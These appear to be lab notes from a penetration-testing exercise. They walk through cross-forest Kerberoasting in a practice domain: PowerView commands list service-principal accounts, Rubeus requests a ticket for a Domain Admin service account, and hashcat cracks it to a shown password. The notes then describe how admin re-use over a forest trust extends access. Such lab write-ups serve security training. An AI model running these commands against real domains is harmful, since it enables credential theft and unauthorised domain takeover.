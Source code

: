 #### Enumerating SPNs

Enumerating Accounts for Associated SPNs Using Get-DomainUser:

```powershell
Get-DomainUser -SPN -Domain $TargetDomain | select SamAccountName
# Example:
# Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL | select SamAccountName

```

Results:

```
samaccountname
--------------
krbtgt
mssqlsvc
```

There is one account with an SPN in the target domain. 

#### Getting which groups is SPM member of

A quick check shows that this account is a member of the Domain Admins group in the target domain.

```powershell
Get-DomainUser -Domain $TargetDomain -Identity $interestingUserSamAccountName | select samaccountname,memberof
# Example:
# Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc | select samaccountname,memberof
```


#### Performing a Kerberoasting Attacking with Rubeus Using /domain Flag

```powershell
.\Rubeus.exe kerberoast /domain:$TargetDomain /user:$interestingUserSamAccountName /nowrap
# Example: 
# .\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap
```

When getting the kerberos ticket, we can crack it: 


```shell-session
hashcat -m 13100 ticketTocrack /usr/share/wordlists/rockyou.txt 
# Results: 1logistics
```


### Admin Password Re-Use & Group Membership

From time to time, we'll run into a situation where there is a bidirectional forest trust managed by admins from the same company. We may see a Domain Admin or Enterprise Admin from Domain A as a member of the built-in Administrators group in Domain B in a bidirectional forest trust relationship. If we can take over this admin user in Domain A, we would gain full administrative access to Domain B based on group membership.
